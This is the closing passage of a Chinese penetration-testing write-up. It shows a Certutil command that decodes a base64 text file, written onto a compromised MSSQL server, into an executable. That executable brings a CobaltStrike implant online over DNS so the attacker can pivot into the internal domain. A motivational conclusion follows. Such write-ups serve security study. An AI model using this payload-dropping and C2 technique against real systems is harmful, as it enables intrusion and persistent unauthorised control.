 **注意，这里的操作一定要网络稳定！！！中间出错了一行，TXT 解密为 EXE 的时候就会失败！！！**

## 3.4 写入 TXT 后解码出 EXE

将 `dns.txt` 有惊无险的写入后，用 `Certutil` 进行解密操作即可：

```plain
Certutil -decode C:/Users/MSSQLSERVER/Desktop/dns.txt C:/Users/MSSQLSERVER/Desktop/dns.exe
```

[![](assets/1707954388-6b9f67f6bb81ef809fed2ff71dced0a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204181200-d5ebd434-c345-1.png)

然后再运行解密出的 EXE 即可通过 DNS 上线 CobaltStrike 木马啦~  
接下来就可以通过 C2 服务，来对内网的域进行域渗透哈哈。

# 4# 总结

在日常的渗透实战过程中，总会碰到棘手的难题。很多人往往“知难而退”，但我们不能退缩，因为只有渡过这样的难关，才能带给你蜕变和成长。

每一次的实践、磨砺以及收获，都是自己通往未来的基石，请认真把握好每一次成长的机会吧。很多时候，是自己去让自己成长，业精于勤，荒于嬉。

希望这篇文章，能给困难中的你带来帮助~  
如果有什么更好的思路，欢迎各位师傅和我交流哈哈~
